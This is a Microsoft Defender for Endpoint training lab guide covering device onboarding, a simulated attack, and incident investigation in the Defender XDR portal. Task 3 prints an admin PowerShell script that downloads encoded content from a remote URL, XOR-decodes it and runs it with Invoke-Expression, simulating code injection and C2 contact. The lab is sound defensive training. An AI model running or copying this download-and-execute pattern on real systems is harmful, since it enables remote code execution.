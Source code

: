 # Module 2 - Lab 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will run two simulated attacks.

## Lab objectives
 In this lab, you will perform the following:
- Task 1: Verify Device onboarding
- Task 2: Investigate alerts and incidents
- Task 3: Simulate an Attack
- Task 4: Investigate the simulated attack as a single incident

## Estimated timing: 60 minutes

## Architecture Diagram

  ![Picture 1](../Media/SC-200-Lab_Diagrams_Mod2.png)

### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft Defender XDR portal in your Microsoft Edge browser, go to (https://security.microsoft.com) and log in as Admin for your tenant.

1. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears on the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

1. Select **Settings** from the left menu bar, then from the Settings page select **Endpoints**.

1. Select **Onboarding** in the Device Management section and make sure *"Windows 10 and 11"* is selected as an operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the Windows search bar of the WIN1 virtual machine, type **CMD** and choose **Run as Administrator** on the right pane for the Command Prompt app.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    > **Note:** The window closes automatically after successfully running the script, and after a few minutes alerts are generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Alerts**.

1. In the **Alerts** pane, select the alert named *Suspicious PowerShell commandline* to load its details.

1. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

1. Under the alert *Details* tab you can scroll down to the *Incident details* section and select the **Suspicious Powershell command line on one endpoint** link to open the incident.

    ![Picture 1](../Media/2024-07-18(1).png)

1. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

    ![Picture 1](../Media/2024-07-18.png)

1. Under **Incident tags** type "Simulation" and select **Simulation (Create new)** to create a new tag.

1. Select the toggle **Assign to**  and add your user account (Me) as the owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Add any comments if desired and select **Save** to update the incident and Close.

    ![Picture 1](../Media/2024-07-18(2).png)

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident, the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

### Task 3: Simulate an Attack

> **Warning:** This simulated attack is an excellent source of learning through practice. Only perform the attack in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you experience errors (in red) while running the script, you can open the Notepad app and copy the script into a blank file. Make sure *word wrap* is turned on in Notepad. Copy and run each line of the script separately in PowerShell.

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

1. Under the *Attack story* tab, collapse the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Re expand the **Alerts** pane (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain any information about the IP address.

> **Congratulations** on completing the task! Now, it's time to validate it. Here are the steps:
> - Navigate to the Lab Validation Page, from the upper right corner in the lab guide section.
> - Hit the Validate button for the corresponding task. You can proceed to the next task if you receive a success message.
> - If not, carefully read the error message and retry the step, following the instructions in the lab guide.
> - If you need any assistance, please contact us at labs-support@spektrasystems.com. We are available 24/7 to help you out.
 
## Review
In this lab, you have completed the following:
- Ran Simulated Attacks
- Investigated the Attacks
- Simulated an Attack
- Investigated the simulated attack as a single incident

## You have successfully completed the lab.
